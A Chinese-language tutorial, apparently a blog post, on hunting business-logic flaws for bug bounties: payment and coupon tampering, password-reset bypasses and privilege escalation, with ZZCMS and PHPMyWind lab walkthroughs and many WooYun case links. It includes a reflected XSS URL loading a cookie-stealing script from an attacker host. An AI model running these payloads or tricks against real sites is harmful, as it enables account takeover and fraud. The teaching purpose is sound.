










SRC逻辑漏洞挖掘详解以及思路和技巧
0X00 逻辑漏洞概述
由于程序逻辑不严谨或逻辑太过复杂，导致一些逻辑分支不能正常处理或处理错误，统称为业务逻辑漏洞。常见的逻辑漏洞有交易支付、密码修改、密码找回、越权修改、越权查询、突破限制等，下图是简单的逻辑漏洞总结，在挖掘的过程中更多的时候需要脑洞大开：

挖掘逻辑漏洞的过程中，需要一些技巧和非常规思路，有点像边缘测试的思想。一般的思路是：
确定业务流程--->寻找流程中可以被操控的环节--->分析可被操控环节中可能产生的逻辑问题--->尝试修改参数触发逻辑问题0X01 逻辑漏洞分类
0X01:饮料贩卖机替换订单ID，创建订单时在支付界面，在此创建订单替换订单ID（高价替换低价）无限新用户优惠订单，重复创建优惠订单替换优惠卷ID（未达到条件使用）个别情况订单数量为1.99时，客户端只支付1元，实际上服务器认为支付了2元。取货时并发（真实案例）0X02:直播快速进出房间炸房无限发送点赞协议修改礼物数量，0，小数，负数，特定值（一般情况下为1073741824）修改礼物ID，遍历尝试是否有隐藏ID。并发送礼物，抽奖无限创建首次优惠订单，有些首次优惠订单是一个特殊的pid，这种的直接替换pid进行支付。有些是相同的ID，这种的提前创建订单，记录多个订单号在依次修改订单支付。刷屏：发言刷屏，分享，点赞等有提示的地方刷屏房间内可以申请的地方进行申请取消操作，看看是否能炸房。越权踢人，增加管理员，关闭房间等操作。发送的表情是否可以修改长宽（真实案例）0X03 :购物app购买数量：为0，小数，负数，正负值（A为-1，B为2，总值为1）代金卷：并发领取，遍历领取，同一个代金卷重复使用，未满足条件使用代金卷越权：登陆，操作别人订单，修改资料0X04:外卖商品数量，0，负数，小数，特定值，正负数（A为-1，B为2，总值为1）送餐员评价修改，星级，打赏金额（小数，负数）商品评价，星级，评论字数，上传图片是否可以自定义格式，订单超出送餐地址强行货到付款，取消订单，退款越权操作别人订单，登陆优惠购买会员（重复使用优惠购买）0X05:交易平台钱包并发提现，负数提现使用钱包支付时多个订单并发支付（是否支付金额能大于余额）转账负数，并发转账上架商品突破限制，例如数量，字数。替换订单，创建订单号如果订单状态可修改，先进到支付界面，然后将订单修改成更大的金额，然后支付提前进入的支付界面数量修改0X06:社交强行举报（读取本地消息上传那种）强行加好友（一般尝试重发通过好友这条协议）自由修改号码（靓号类）群管理无限禁言越权禁言，替人，拉黑会员修改金额，数量。无限优惠购买非会员使用会员功能0X07:漫画打赏金额为负数，小数，特定值（溢出）越权删除评论，登陆修改充值金额付费漫画免费看评论图片数量过多会导致客户端加载卡死0X08:音乐唱歌类软件修改上传分数等参数付费下载尝试替换下载ID修改付费下载金额F12查看下是否有歌曲地址0X09:网约车无限叫车，重复发送协议造成市场混乱修改评价分数修改限时优惠叫车关键参数替换优惠卷越权操作其他订单
业务逻辑漏洞需要对业务熟悉，有很强的逻辑思维能力，所以下面主要描述一下ZZCMS8.1中注册、登录和密码找回出现的漏洞逻辑，再尽量多和全的收集整理相关场景。
0X02 逻辑漏洞利用实例
ZZCMS 8.1
批量注册
我们把注册功能填写相关信息，然后抓包：

将数据包发送到repeater，每次修改username值，发现，只需要修改username值就可以注册成功用户，图形验证码无效，并且未对电话，邮箱等信息校验，可批量注册。


批量猜解用户
同样是注册功能，在输入用户名时，发现会提示用户名是否存在，猜测该位置可以猜测哪些用户注册过该网站。

抓取该位置数据包发现，会对用户名id进行判断，是否存在，是否符合规则，由此我们可以批量探测用户，发现可以批量探测已注册过的用户：

任意密码重置
在忘记密码功能，我们输入用户名正确后会进行短信验证码，通过手机验证码或者邮箱验证码。

在验证码功能中输入验证码进行验证，发现其中有一段JavaScript代码document.userreg.yzm_mobile2.value=='no'是用来验证验证码是否正确，那么就可以直接在控制台直接改变这个值就可以绕过验证码：

平行越权
越权又可分为平行越权（相同用户）、垂直越权（低权限用户和高权限用户）、未授权访问（无需用户直接操作）。
登录普通用户test2,查看用户敏感的页面：

发送到repteater数据包中，看到cookie中存在username参数，修改为已存在的用户名，发现返回包中可查看其他用户敏感信息。

0X03 PHPMyWind 5.5
由于网上没有找到PHPMyWind5.5的源码，只能看看其他师傅分析的文章，这里就再大概复述一遍。
首先对实验环境做一个简单说明：
| 服务器 | 192.168.114.159 | 部署有“PHPMyWind 5.5” |
|---|---|---|
| 攻击机（safedog） | 192.168.114.1 | 部署有能“收集PHPMyWind用户的Cookie”的PHP脚本、JS脚本 |
| 受害者（victim） | 192.168.114.161 | 可通过浏览器访问“服务器”上的“PHPMyWind”网站 |

1.过程1代表攻击者safedog通过邮件等方式发送恶意链接（嵌有可盗取并发送Cookie的JS脚本）给受害者victim；
2.过程2代表在受害者victim受诱导点击恶意链接后，会经由浏览器将攻击者safedog嵌入的JS脚本当做数据发送给服务器上的PHPMyWind网站的反射型XSS漏洞点；
3.过程3与过程4代表PHPMyWind网站在受到反射型XSS攻击后，会执行JS脚本，将受害者victim的Cookie返回给受害者victim，并发送给攻击者safedog。
4.过程5代表攻击者safedog在获得受害者victim的Cookie后，利用受害者victim的Cookie与PHPMyWind网站的逻辑漏洞点进行密码重置攻击。
反射型XSS
攻击者搭建可接收受害者Cookie的PHP网站；
该PHP网站由“ReflectiveXSS.js”“ReflectiveXSS.php”和“cookie.txt”这3个文件构成。
其中“ReflectiveXSS.js”用于针对服务器端PHPMyWind网站的反射型XSS漏洞窃取受害者victim的Cookie，并将该Cookie值传输给ReflectiveXSS.php；“ReflectiveXSS.php”用于接收名为“victimcookie”的GET请求，并将“victimcookie”的参数值保存到“cookie.txt”。
ReflectiveXSS.js的代码如下：
1 | //通过指定的名称'img'创建img元素 |
ReflectiveXSS.php的代码如下：
1 | <?php |
出发XSS漏洞的EXP：
1 | http://192.168.114.159/phpmywind5-5/data/api/oauth/connect.php?method=unknownmethod<script src=http://192.168.114.1/safedog-attack/ReflectiveXSS.js></script> |
出现XSS漏洞的地方：
该漏洞出现的文件路径为：/data/api/oauth/connect.php，其中的代码段：
1 | if(method_exists($connect, $method)) |
if判断的作用是“判断函数名是否存在”，代码的逻辑是“如果函数名不存在，则在PHP页面输出函数名”，这一做法会造成反射型XSS漏洞。
任意密码重置
该漏洞出现的文件路径为：/member.php
1 | //检测旧密码是否正确 |
第一个if判断的作用是“判断用户提交的新密码是否为空”，在用户提交的新密码不为空的情况下，才会进行‘旧密码的比对’，如果提交的旧密码和数据库的查询结果不一致，则不允许继续进行更换密码的操作。第二个if判断的作用仍为“判断用户提交的新密码是否为空”，在用户提交的新密码不为空的情况下，对新密码进行哈希运算，随后进行SQL语句的拼接。这两个if语句存在了逻辑漏洞。因为，如果我们提交的新密码（password变量和repassword变量）为空，则可以绕过对旧密码（oldpassword变量）的验证。
在这里之所以要使用XSS获取cookie，是因为当SQL语句满足条件id='$id' AND username ='$c_uname';时，才可进行update操作。变量c_uname值（明文）来源于AuthCode($_COOKIE['username'])，即先取得Cookie中username(密文)的值，然后通过AuthCode函数配合配置文件中的密钥来获取明文。
PHPMyWind采用Cookie保存混淆化的用户登录信息。因为配置文件中的密钥是在CMS搭建时随机生成的，算法也不可逆，因此要在知道c_name变量的前提下，从正向伪造username等变量，以通过权限验证具有较大难度。为获取Cookie中的username等值，可考虑借助反射型XSS漏洞。
0X04 其他实例
现在wooyun已经没了，只能在一些镜像网站看漏洞合集，以逻辑漏洞为关键词搜索到了186个相关漏洞，基本上把每个漏洞都过了一遍，也没办法复现，记录一些比较有代表性的案例，权当搜集思路吧。
支付业务相关逻辑漏洞
常见手法
1.修改金额；
2.修改商品数量；
3.修改优惠金额；
4.修改数量、单价，优惠价格参数为负数、小数，无限大；
5.商品价格更改；
6.支付key泄露等。
实际安全中会有一些比较特别的，反正各种能改的参数都去尝试。个数单价-优惠券个数单价=总额，每个值都可能存在问题，就看服务自身处理是否有问题了。
顺丰宝业务逻辑漏洞：数量和金额没有做签名
https://wooyun.x10sec.org/static/bugs/wooyun-2011-02272.html
移动手机支付业务逻辑漏洞：爆破四位验证码
https://wooyun.x10sec.org/static/bugs/wooyun-2011-02513.html
新东方逻辑支付漏洞：修改运费金额为负数，使得课程金额+运费大于0即可
https://wooyun.x10sec.org/static/bugs/wooyun-2013-019761.html
中国零食网支付逻辑漏洞：同上
https://wooyun.x10sec.org/static/bugs/wooyun-2014-074483.html
阿里云计算按量付费逻辑漏洞一枚（低价享受超级主机）：经过base64编码的数据可以被篡改，并且后端会接受篡改的数据
https://wooyun.x10sec.org/static/bugs/wooyun-2013-023789.html
乐视商城支付逻辑漏洞（价格可更改）：价格参数明文显示在url，可以直接更改
https://wooyun.x10sec.org/static/bugs/wooyun-2013-036787.html
再次挖掘乐视商城支付逻辑漏洞：同上
https://wooyun.x10sec.org/static/bugs/wooyun-2014-053181.html
读览天下支付逻辑漏洞可刷充值金额：替换支付订单号
https://wooyun.x10sec.org/static/bugs/wooyun-2014-051673.html
益盟爱炒股商城支付逻辑漏洞：修改Cookie中的参数值
https://wooyun.x10sec.org/static/bugs/wooyun-2015-093365.html
饿了么逻辑漏洞之免费吃喝不是梦：手机号+;+手机号绕过服务器对手机号码的次数限制
https://wooyun.x10sec.org/static/bugs/wooyun-2015-0125060.html
七夕单身专场之性多多免费刷成人用品(支付逻辑漏洞)：改负数刷代币
https://wooyun.x10sec.org/static/bugs/wooyun-2015-0135459.html
大疆某处支付逻辑漏洞可1元买无人机：https改为http访问，修改支付的参数
https://wooyun.x10sec.org/static/bugs/wooyun-2016-0194751.html
密码找回相关逻辑漏洞
常见手法
1.找回密码的验证码为四位数字可爆破真实验证码；
2.采用本地验证,可以先尝试修改自己的帐号密码，保存正确的返回包，然后修改他人密码的时候替换返回包；
3.最终修改密码的数据包，以另外的ID作为身份判断（例如userid），而该ID在别处可以获取到；
4.接受验证码的手机号修改为自己的号码，然后输入自己的号码接收到的验证码去进行密码重置；
5.获取验证码的时候，会生成一个身份标识（例如cookie值），那么我们就替换他人账号的身份证重置他人的密码；
具体可以去i春秋看carry_your发过的一篇专门针对
密码重置的视频：https://www.ichunqiu.com/course/59045
用户凭证暴力破解
四位或者六位的纯数字
WooYun: 当当网任意用户密码修改漏洞
https://wooyun.x10sec.org/static/bugs/wooyun-2012-011833.html
WooYun: 微信任意用户密码修改漏洞
https://wooyun.x10sec.org/static/bugs/wooyun-2012-011720.html
返回凭证
url返回验证码及token
WooYun: 走秀网秀团任意密码修改缺陷
https://wooyun.x10sec.org/static/bugs/wooyun-2012-05630.html
WooYun: 天天网任意账户密码重置（二）
https://wooyun.x10sec.org/static/bugs/wooyun-2014-058210.html
密码找回凭证在页面中
通过密保问题找回密码
WooYun: sohu邮箱任意用户密码重置
https://wooyun.x10sec.org/static/bugs/wooyun-2012-04728.html
返回短信验证码
WooYun: 新浪某站任意用户密码修改（验证码与取回逻辑设计不当）
https://wooyun.x10sec.org/static/bugs/wooyun-2014-085124.html
邮箱弱token
时间戳的md5
WooYun: 奇虎360任意用户密码修改漏洞
https://wooyun.x10sec.org/static/bugs/wooyun-2012-08333.html
用户名 & 服务器时间
WooYun: 中兴某网站任意用户密码重置漏洞（经典设计缺陷案例）
https://wooyun.x10sec.org/static/bugs/wooyun-2015-090226.html
用户凭证有效性
短信验证码
WooYun: OPPO手机重置任意账户密码（3）
https://wooyun.x10sec.org/static/bugs/wooyun-2014-053349.html
WooYun: 第二次重置OPPO手机官网任意账户密码（秒改）
https://wooyun.x10sec.org/static/bugs/wooyun-2014-053079.html
WooYun: OPPO修改任意帐号密码
https://wooyun.x10sec.org/static/bugs/wooyun-2013-020032.html
邮箱token
WooYun: 身份通任意密码修改-泄漏大量公民信息
https://wooyun.x10sec.org/static/bugs/wooyun-2012-012572.html
重置密码token
WooYun: 魅族的账号系统内存在漏洞可导致任意账户的密码重置
https://wooyun.x10sec.org/static/bugs/wooyun-2014-078208.html
重新绑定
WooYun: 网易邮箱可直接修改其他用户密码
https://wooyun.x10sec.org/static/bugs/wooyun-2012-08307.html
WooYun: 如家酒店某严重逻辑漏洞可登陆任意账号可导致几千万敏感信息泄露（涉及任意用户账号个人基本信息、入住记录等）
https://wooyun.x10sec.org/static/bugs/wooyun-2015-0115537.html
Wooyun: 华住酒店官网某严重逻辑漏洞可登陆任意账号（涉及任意用户账号个人基本信息、入住记录等）
https://wooyun.x10sec.org/static/bugs/wooyun-2015-0115276.html
WooYun: 12308可修改任意用户密码
https://wooyun.x10sec.org/static/bugs/wooyun-2014-081467.html
邮箱绑定
WooYun: 某彩票设计缺陷可修改任意用户密码
https://wooyun.x10sec.org/static/bugs/wooyun-2015-092319.html
WooYun: 中国工控网任意用户密码重置漏洞
https://wooyun.x10sec.org/static/bugs/wooyun-2014-086726.html
服务器验证
WooYun: 携程旅行网任意老板密码修改(庆在wooyun第100洞)
https://wooyun.x10sec.org/static/bugs/wooyun-2013-018263.html
服务器验证可控内容
WooYun: AA拼车网之任意密码找回2
https://wooyun.x10sec.org/static/bugs/wooyun-2014-080278.html
WooYun: 四川我要去哪517旅行网重置任意账号密码漏洞
https://wooyun.x10sec.org/static/bugs/wooyun-2014-082582.html
服务器验证验证逻辑为空
WooYun: 某政企使用邮件系统疑似存在通用设计问题
https://wooyun.x10sec.org/static/bugs/wooyun-2014-088927.html
用户身份验证
账号与手机号码的绑定
WooYun: 上海电信通行证任意密码重置
https://wooyun.x10sec.org/static/bugs/wooyun-2014-075941.html
账号与邮箱账号的绑定
WooYun: 魅族的账号系统内存在漏洞可导致任意账户的密码重置
https://wooyun.x10sec.org/static/bugs/wooyun-2014-078208.html
WooYun: 和讯网修改任意用户密码漏洞
https://wooyun.x10sec.org/static/bugs/wooyun-2015-091216.html
找回步骤
跳过验证步骤、找回方式，直接到设置新密码页面
WooYun: OPPO手机同步密码随意修改，短信通讯录随意查看
https://wooyun.x10sec.org/static/bugs/wooyun-2013-042404.html
WooYun: 中国电信某IDC机房信息安全管理系统设计缺陷致使系统沦陷
https://wooyun.x10sec.org/static/bugs/wooyun-2015-098765.html
本地验证
在本地验证服务器的返回信息，确定是否执行重置密码，但是其返回信息是可控的内容，或者可以得到的内容
WooYun: 看我如何重置乐峰网供应商管理系统任意用户密码（管理员已被重置）
https://wooyun.x10sec.org/static/bugs/wooyun-2014-083035.html
WooYun: oppo重置任意用户密码漏洞(4)
https://wooyun.x10sec.org/static/bugs/wooyun-2014-069987.html
发送短信等验证信息的动作在本地进行，可以通过修改返回包进行控制
WooYun: OPPO修改任意帐号密码-3
https://wooyun.x10sec.org/static/bugs/wooyun-2013-020532.html
WooYun: OPPO修改任意帐号密码-2
https://wooyun.x10sec.org/static/bugs/wooyun-2013-020425.html
注入
在找回密码处存在注入漏洞
WooYun: 用友人力资源管理软件（e-HR）另一处SQL注入漏洞（通杀所有版本）
https://wooyun.x10sec.org/static/bugs/wooyun-2014-068060.html
Token生成
token生成可控
WooYun: 天天网任意账号密码重置(非暴力温柔修改)
https://wooyun.x10sec.org/static/bugs/wooyun-2015-094242.html
WooYun: 天天网再一次重置任意账号密码(依旧非暴力)
https://wooyun.x10sec.org/static/bugs/wooyun-2015-095729.html
注册覆盖
注册重复的用户名
WooYun: 中铁快运奇葩方式重置任意用户密码(admin用户演示)
https://wooyun.x10sec.org/static/bugs/wooyun-2014-088708.html
session覆盖
WooYun: 聚美优品任意修改用户密码(非爆破)
https://wooyun.x10sec.org/static/bugs/wooyun-2014-085843.html
越权相关逻辑漏洞
越权漏洞是Web应用程序中一种常见的安全漏洞。它的威胁在于一个账户即可控制全站用户数据。当然这些数据仅限于存在漏洞功能对应的数据。越权漏洞的成因主要是因为开发人员在对数据进行增、删、改、查询时对客户端请求的数据过分相信而遗漏了权限的判定。所以测试越权就是和开发人员拼细心的过程。
常见手法
1.操作时分析请求中的数据包，看看每个参数的作用，修改参数查看变化。
2.拥有更多权限的账号，把能访问的URL都提取出来，给低权限用户访问或者直接访问，查看能否访问。
3.猜测隐藏的API，如:guest/getorder，修改成admin/getorder。
4.通过搜索引擎，或者提取JS中的URL，查找隐藏功能。如burpsuite中有一个BHP JS scraper的插件。
5.猜测隐藏的参数，添加进去查看变化，如修改信息的时候加个ID。
6.抓取所有的数据包，搜索用户名等关键词，比如我的用户名是test，在burpsuite中的HTTP history搜索test，看看有没有哪个数据包包含这个参数,将其修改为其他的用户名，查看变化。
我的越权之道
https://wooyun.x10sec.org/static/drops/tips-727.html
垂直越权的手法：
1.编辑个人信息的时候，修改权限组的id，一般管理员的值为0或者1；
2.后台修改密码的地方，如果是根据userid来修改密码的，可以修改id的值来修改管理员的密码；
3.在个人资料处插入XSS脚本，一般能打到管理员cookie的概率很大；
4.查看个人资料的时候，如果是根据id来显示，一般都有越权，可以遍历id获取管理员信息；
5.测试后台功能，找一下注入、上传、命令执行等漏洞，直接拿下数据库权限或者shell，再找管理员权限就轻而易举了。
 其他资料
其他资料
业务逻辑漏洞总结
https://github.com/PyxYuYu/MyBlog/issues/102
Reference
[红日安全]Web安全Day6 - 业务逻辑漏洞实战攻防
https://xz.aliyun.com/t/6401#toc-5
密码找回逻辑漏洞总结
http://bobao.360.cn/learning/detail/287.html
